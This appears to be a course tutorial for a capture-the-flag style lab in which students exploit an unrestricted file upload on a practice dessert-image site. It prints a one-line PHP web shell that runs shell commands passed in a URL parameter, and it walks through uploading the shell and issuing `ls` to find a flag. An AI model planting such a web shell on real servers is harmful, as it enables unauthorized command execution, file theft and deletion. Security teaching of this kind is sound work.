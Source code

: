 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

![USA Cake](https://d213sdapb08052.cloudfront.net/assets/recipes/flag-cake/_ogImage/IMG_1153.jpeg?mtime=20200521120223)

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. We could destroy the website if we wanted to!

**But we won't do that cause we are not the L33k3ers!**

Now that you know what know what this file does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says 
> We got your cake image: /cakes/Hack.php

With a little image underneath

**Right click** on this image and select, **"Open Image in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 

The command that is executed is directly after the `=`, so like we learned in the bash tutorial, `ls` prints all the contents of a directory. Now, find the **flag!**

## You are truly becoming an expert!

You are getting better with every exercise, Bob and Alice are proud and present you with this badge. Throw it on your website to mark your accomplishments!

![Dessert Exploitation](https://udel.codes/cyber2/Dessert_Exploitation.png)







